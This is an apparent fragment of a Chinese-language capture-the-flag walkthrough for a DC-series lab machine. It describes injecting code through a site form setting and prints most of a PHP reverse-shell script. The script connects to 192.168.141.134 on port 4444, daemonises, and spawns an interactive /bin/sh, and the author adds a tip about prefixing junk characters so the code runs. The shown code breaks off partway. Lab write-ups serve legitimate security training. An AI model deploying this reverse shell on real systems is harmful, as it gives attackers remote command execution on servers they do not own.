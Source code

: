 是个表单设置,可能要用 Contact us 触发

和 DC7 一样的 PHP 反向 shell 代码

`!!!注意: 一定要在 php 代码最前面加一些字符,大坑,搞了好久才发现!!!`

```php
rdfgdfgdfgsdfgsfgsdf

<?php

set_time_limit (0);
$VERSION = "1.0";
$ip = '192.168.141.134';
$port = 4444;
$chunk_size = 1400;
$write_a = null;
$error_a = null;
$shell = 'uname -a; w; id; /bin/sh -i';
$daemon = 0;
$debug = 0;

if (function_exists('pcntl_fork')) {
	// Fork and have the parent process exit
	$pid = pcntl_fork();

	if ($pid == -1) {
		printit("ERROR: Can't fork");
		exit(1);
	}

	if ($pid) {
		exit(0);
	}

	if (posix_setsid() == -1) {
		printit("Error: Can't setsid()");
		exit(1);
	}

	$daemon = 1;
} else {
	printit("WARNING: Failed to daemonise.  This is quite common and not fatal.");
}

chdir("/");
umask(0);

$sock = fsockopen($ip, $port, $errno, $errstr, 30);
if (!$sock) {
	printit("$errstr ($errno)");
	exit(1);
}

$descriptorspec = array(
   0 => array("pipe", "r"),
   1 => array("pipe", "w"),
   2 => array("pipe", "w")
);

$process = proc_open($shell, $descriptorspec, $pipes);

if (!is_resource($process)) {
	printit("ERROR: Can't spawn shell");
	exit(1);
```